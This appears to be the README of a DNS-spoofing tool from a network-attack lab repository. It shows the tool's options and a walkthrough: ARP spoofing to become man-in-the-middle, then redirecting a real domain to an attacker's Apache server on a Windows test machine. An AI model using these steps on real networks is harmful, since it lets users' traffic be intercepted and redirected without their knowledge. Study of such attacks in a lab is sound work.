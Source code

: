 # DNS Spoofer

## Requirements

* Python 3
* Scapy and netfilter modules
* Domain to be spoofed
* IP address webserver to redirect to

## Usage

```shell
usage: dns_spoofer.py [-h] [-d DOMAIN] [-r IP] [-q DESTINATION]

DNS spoof tool

optional arguments:
  -h, --help            show this help message and exit
  -d DOMAIN, --domain DOMAIN
                        Domain to spoof
  -r IP, --ip IP        IP address to redirect to
  -q DESTINATION, --destination DESTINATION
                        Forward or local

Example: 
            dns_spoofer.py -q forward               # spoof domain on target (Windows)
            dns_spoofer.py -d sqa.fyicenter.com     # domain
            dns_spoofer.py -r 192.168.122.108       # redirection address
            dns_spoofer.py                          # with defaults local, apache2 and sqa.fyicenter.com
```

### Kicking the tyres

Choose a domain to spoof and check it is reachable:

```shell
@kali:~$ ping -c 1 sqa.fyicenter.com
PING sqa.fyicenter.com (74.208.236.35) 56(84) bytes of data.
64 bytes from 74-208-236-35.elastic-ssl.ui-r.com (74.208.236.35): icmp_seq=1 ttl=52 time=131 ms

--- sqa.fyicenter.com ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 131.125/131.125/131.125/0.000 ms

```

Become MitM by running the [arp_spoofer](/layer2/arp_spoofer)

```shell
@kali:~$ sudo python3 arp_spoofer.py
[sudo] password for <user>: 
[+] Setting forward
[+] Packets sent: 63
```

Run DNS spoofer:

```shell
@kali:~$ sudo python3 dns_spoofer.py -q forward
[+] Starting apache2 service...
              
```

On Windows testlab machine, visit http://sqa.fyicenter.com in browser and check that the Kali apache server comes up instead.

```shell
@kali:~$ sudo python3 dns_spoofer.py
[+] Starting apache2 service...
[+] Spoofing Target
                   
```

## Troubleshooting

* [ImportError on NetfilterQueue](https://github.com/tymyrddin/ymrir/wiki/netfilterqueue.md)
* [ImportError on Scapy](https://github.com/tymyrddin/ymrir/wiki/scapy.md)
* [Bettercap sslstrip not working](https://github.com/tymyrddin/ymrir/wiki/bettercap.md)
* [Undesired HTTPS redirects](https://github.com/tymyrddin/ymrir/wiki/https-browser.md)
* [Correctly configured HSTS](https://github.com/tymyrddin/ymrir/wiki/hsts.md)
